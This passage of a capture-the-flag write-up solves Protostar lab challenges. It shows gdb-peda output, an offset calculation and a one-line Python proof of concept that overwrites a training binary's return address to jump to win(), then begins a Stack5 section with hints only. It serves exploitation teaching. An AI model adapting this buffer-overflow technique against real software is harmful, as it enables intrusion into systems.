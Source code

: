 ```x86asm
gdb-peda$ print $eip
$1 = (void (*)()) 0x41344141
gdb-peda$ pattern offset 0x41344141
1093943617 found at offset: 76
```

So we need 72 bytes of junk (let's use nops - \x90). Since the base pointer also stored in the stack righ after esp we need to overwrite ebp as well to control program flow and 4 bytes for ebp as well.

Here is the summary of our attempt with the pattern:

```js
"\x90" * 72       -> Offset
"BBBB"            -> ebp
address of win()  -> eip
```

```py
gdb-peda$ r <<< $(python -c "print '\x90' * 72 + 'BBBB' + '\x4d\x84\x04\x08'")
Starting program: ./4 <<< $(python -c "print '\x90' * 72 + 'BBBB' + '\x4d\x84\x04\x08'")
code flow successfully changed
Program received signal SIGSEGV, Segmentation fault.
...trim...

gdb-peda$ i r ebp
ebp            0x42424242	0x42424242
```

#### 2.3 Final PoC

```py
python -c "print '\x90' * 76 + '\x4d\x84\x04\x08'" | ./4
```


## Protostar-Stack5 Solution

### 1. Introduction

This is a poc solution for the "Stack5" challenge of Protostar. It's short and hopefully it's easy for everyone who wants to have a look. Thanks to my friend for his help in this challenge, the solution in this post is smooth.

Source:
[https://web.archive.org/web/20170419023355/https://exploit-exercises.com/protostar/stack5/](https://web.archive.org/web/20170419023355/https://exploit-exercises.com/protostar/stack5/) 
 
**Hints:**
* Stack5 is a standard buffer overflow, this time introducing shellcode.
* At this point in time, it might be easier to use someone elses shellcode
* If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
* remove the int3s once your shellcode is done.
